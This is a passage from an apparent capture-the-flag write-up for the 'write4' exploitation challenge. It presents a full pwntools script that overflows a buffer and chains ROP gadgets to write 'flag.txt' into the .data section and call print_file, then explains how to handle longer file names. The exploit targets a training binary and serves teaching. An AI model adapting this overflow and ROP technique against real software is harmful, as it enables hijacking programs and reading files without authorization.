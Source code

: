 And all it takes to do this is a simple Python script:

```python
from pwn import *

context.arch = "amd64"

elf = context.binary = ELF("./write4")

# address of our data section; store this in r14
DATA_PTR = p64(0x601028)
# address of PLT entry for print_file
PRINTFILE = p64(elf.symbols.print_file)
# file to read; store this in r15
FLAG_PATH = b'flag.txt'

# our gadgets.

# mov qword ptr [r14], r15; ret
MOV_DATA_GADGET = p64(0x400628)
# pop r14; pop r15; ret
POP_R14_R15_GADGET = p64(0x400690)
# pop rdi; ret
POP_RDI_GADGET = p64(0x400693)

# overflow the buffer
payload = b'A' * 40

# set up for jump to pop r14, then r15
payload += POP_R14_R15_GADGET
# first pop r14
payload += DATA_PTR
# then pop r15
payload += FLAG_PATH
# ret to move data
payload += MOV_DATA_GADGET
# ret to pop rdi
payload += POP_RDI_GADGET
# pop address of data into rdi
payload += DATA_PTR
# ret to print_file
payload += PRINTFILE

conn = process("./write4")
conn.recvuntil(b'> ')
conn.send(payload)

recved = conn.recvall()
print(recved.decode("ascii"))
```

It's important to note that the string `flag.txt` is exactly 8 ASCII characters long, hence it is only eight bytes and can fit perfectly into a 64-bit register. If the name was any longer, we would have to break the string into 8-byte segments and call the `mov` gadget two or more times, each time writing to an offset from `.data`. I managed to write an updated exploit script that can do this, in [exploit.py](exploit.py). In this case, `.data` was only 16 bytes large in virtual address space, so I couldn't write too long of a file name, but for larger writable areas, you can do larger writes.
